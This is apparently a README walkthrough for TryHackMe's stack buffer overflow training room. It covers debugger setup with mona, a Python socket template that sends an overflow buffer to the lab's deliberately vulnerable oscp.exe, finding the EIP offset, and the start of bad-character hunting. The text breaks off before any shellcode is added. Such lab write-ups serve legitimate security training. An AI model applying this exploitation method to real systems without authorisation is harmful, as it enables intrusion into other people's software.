# Buffer-Overflow-Prep
We're going to learn how to solve 3 tryhackme's stack buffer overflow.

This is the link to the Tryhackme Machine: https://tryhackme.com/room/bufferoverflowprep

# Things that you will need:
You will need x32dbg made by therealdreg: https://github.com/therealdreg/x64dbg-exploiting

[![18eaa8e03e02775805ec70f088604676.png](https://i.postimg.cc/6qzWgzJ9/18eaa8e03e02775805ec70f088604676.png)](https://postimg.cc/Pvpn8W5c)

You will need your OpenVPN from Tryhackme: https://tryhackme.com/access

You will need wfreerdp to get "vulnerable_apps.zip"

You can get it from here: https://ci.freerdp.com/job/freerdp-nightly-windows/arch=win32,label=vs2013/

[![e73bc927e928e9aac8a53960cfb34a08.png](https://i.postimg.cc/15ts4G1q/e73bc927e928e9aac8a53960cfb34a08.png)](https://postimg.cc/kDkkpt4J)

# First Steps

Start the machine in Tryhackme.

Open your OpenVPN and wait to connect to the machine, so we can work.

After downloading it all, We will need to execute this comand on cmd: ```wfreerdp.exe /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea```

[![11fd449aa4140dac4f71db16bbe012b2.png](https://i.postimg.cc/XqgPgzMg/11fd449aa4140dac4f71db16bbe012b2.png)](https://postimg.cc/0KbZkZy6)

Once we connect to the Tryhackme Machine, we can start to work!

On the Desktop is "vulnerable_apps", so we can right click it and make it a zip.

[![ddf3a6b17b9494a291f4f5c02fa15903.png](https://i.postimg.cc/sDqYNJVP/ddf3a6b17b9494a291f4f5c02fa15903.png)](https://postimg.cc/fJ7S3mSk)

Then in the windows machine we can found that we can use Python27 then we can get "vulnerable_apps.zip" via http server.

So knowing this we use on the cmd: ```c:\Python27\python.exe -m SimpleHTTPServer```

[![8ec396ffd688f7e79111b8edcfb31b3c.png](https://i.postimg.cc/g0S83yB6/8ec396ffd688f7e79111b8edcfb31b3c.png)](https://postimg.cc/Z9NWSNmT)

Back on your Windows search on google: ```MACHINEIP:8000```

[![88368624e10a140e81068e70fcea41ac.png](https://i.postimg.cc/SQrqdZf5/88368624e10a140e81068e70fcea41ac.png)](https://postimg.cc/3WdPJF6C)

Download "vulnerable_apps.zip" and unzip it.

# Using x32dgb

We will need a script to execute an exploit on the "oscp.exe"

Tryhackme give us this:

```
import socket

ip = "MACHINE_IP" # Here introduce 127.0.0.1 for local or TryHackme's Machine IP
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

We will start trying the exploit doing it in local, so we neet to introduce in the parameter "ip" 127.0.0.1

Run the program, and open the file "oscp.exe" it is in this path: ```vulnerable-apps/vulnerable-apps/oscp/oscp.exe```

[![7ee528397d8b95aa959aefcb51bca05b.png](https://i.postimg.cc/W1S9zHgG/7ee528397d8b95aa959aefcb51bca05b.png)](https://postimg.cc/dhkRSnW3)

Then you will see something like this:

[![a5255baed8f1aee8570dc9f6c68715b7.png](https://i.postimg.cc/SR1SRLLQ/a5255baed8f1aee8570dc9f6c68715b7.png)](https://postimg.cc/YLgKyWyT)

# Useful codes for x32dgb using mona

```
import mona
mona.mona("help")
mona.mona("config -set workingfolder c:\\logs\\%p")
--------------------------------------------------------------------------------

mona.mona("pattern_create 2000")

mona.mona('bytearray -cpb "\\x00"')

mona.mona('compare -f C:\\logs\\oscp\\bytearray.bin -a ESP')

mona.mona("pattern_offset EIP")

mona.mona("jmp -r esp") 
```

# Starting with x32dgb on "oscp.exe"

Go to Log inside of x32dgb when "oscp.exe" it's open and execute this 3 commands one by one:

```
import mona
mona.mona("help")
mona.mona("config -set workingfolder c:\\logs\\%p")
```
You need to do this everytime you turn on your pc.

If you do this all right you'll see this with our last command:

[![cc593dbe3e7a6ab673d27fe1e4c1e1c7.png](https://i.postimg.cc/05CRfCwb/cc593dbe3e7a6ab673d27fe1e4c1e1c7.png)](https://postimg.cc/3WWcrm9T)

Now, we need to create a pattern, so we can know how much bytes can we put to get to EIP.

```mona.mona("pattern_create 2000")``` Enter this in "Log".

You should see this:

[![c1e9cbf34e1914f2504c149861837c32.png](https://i.postimg.cc/tC0ks0T6/c1e9cbf34e1914f2504c149861837c32.png)](https://postimg.cc/MXDVLF1Z)

Restart and Run your program a few times till it open this will be done everytime that we change the file.py

You need to execute your python3 in your cmd like this: ```c:\YOUR_PATERN_PYTHON3\python.exe YOUR.PY```

[![c5f08318b0473e0b4cf5922b81483227.png](https://i.postimg.cc/pTjBVkDx/c5f08318b0473e0b4cf5922b81483227.png)](https://postimg.cc/8J1vtRKn)

Now in "Log" we need to execute the command: ```"mona.mona("pattern_offset EIP")"``` 

This gonna compare our pattern to get how much bytes we need to get to EIP.

[![6632609ce31c786d0df06b32ed0d0d62.png](https://i.postimg.cc/nzLt6j7v/6632609ce31c786d0df06b32ed0d0d62.png)](https://postimg.cc/v1Cjnm0B)

We see that we need 1978 bytes to get to EIP so we gonna put this on payload: (\x41 means A in ASCII and \x42 means B in ASCII )

[![9509072bfe829744e9818c7d7c1944a8.png](https://i.postimg.cc/85qNMkJM/9509072bfe829744e9818c7d7c1944a8.png)](https://postimg.cc/hzbkqB0t)

We need to restart "oscp.exe" and run it till it's open. Execute your file.py and you should see this on EIP:

[![65dad277ef0a729dc5cc05b235340f9a.png](https://i.postimg.cc/hjqBpD1B/65dad277ef0a729dc5cc05b235340f9a.png)](https://postimg.cc/4Kwq3T0L)

If you can see this, all is going good! Well done!

Now it's time to search badchars

# Searching Badchars

Go to "Log", execute: ```mona.mona('bytearray -cpb "\\x00"')``` 

This will create a payload without the badchat \x00 that we asume that it's a badchar.

We can see here "\x41" and "\x42" at the top of the stack.

[![49443394b4bce14e67c3cb45bd2d755d.png](https://i.postimg.cc/QCQwC129/49443394b4bce14e67c3cb45bd2d755d.png)](https://postimg.cc/9wfJNRFC)

[![ac1ff2ab0df93fab77e2c6006d0f091d.png](https://i.postimg.cc/xdP2prxN/ac1ff2ab0df93fab77e2c6006d0f091d.png)](https://postimg.cc/zL363Q1q)

Paste it all into payload under ```payload+= "\x42" * 4``` 

All like this:

[![ac1ff2ab0df93fab77e2c6006d0f091d.png](https://i.postimg.cc/xdP2prxN/ac1ff2ab0df93fab77e2c6006d0f091d.png)](https://postimg.cc/zL363Q1q)
